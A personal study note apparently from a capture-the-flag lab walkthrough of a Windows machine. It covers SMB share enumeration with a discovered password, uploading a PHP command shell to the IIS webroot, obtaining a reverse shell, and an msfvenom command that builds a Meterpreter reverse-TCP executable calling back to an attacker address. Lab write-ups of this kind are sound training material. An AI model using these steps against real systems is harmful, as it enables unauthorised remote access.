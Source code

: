 We got access as `tyler`from [[PNPT/WPE/Windows Subsystem for Linux/Initial Foothold|Initial Foothold]]

# Notes from Tyler
---
![[Pasted image 20250414140533.png]]
- Possible Password: `92g!mA8BGjOirkL%OG*&`
- Something Interesting: `\\secnotes.htb\new-site`
	- This site is not found
	- ![[Pasted image 20250414140615.png]]
- Directory is written in SMB format, let's try that

# SMB Enumeration
---
- `smbclient -L \\\\10.10.10.97\\ -U tyler`
	![[Pasted image 20250414140747.png]]
- Access the shares:
	- ![[Pasted image 20250414141009.png]]
	- These look like default **IIS server files for windows**. We know there is an **IIS server running on port 8808** from nmap scan [[Nmap Scan Results]]
	- We can `put` files
		- ![[Pasted image 20250414141216.png]]
		-  Let's see if we can get a shell by putting an aspx shell here.
			- ASPX shell is never detected, seems like antivirus is preventing those.
		- Uploaded a normal php command shell and **executed base64 encoded powershell to get shell** [[Encoded Powershell Reverse Shell]] from www.revshells.com
		- ![[Pasted image 20250414145511.png]]
		- ![[Pasted image 20250414144642.png]]
		- **Another method is just to upload `nc.exe` and run it from our php command shell.**

# Meterpreter shell
--- 
- Generate and upload `reverse.exe`:
	- `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.19 LPORT=9001 -f exe -o reverse.exe`
	- Upload via same `smb` share

# WinPEAS Enumeration
----
- Upload winPEAS via same smb share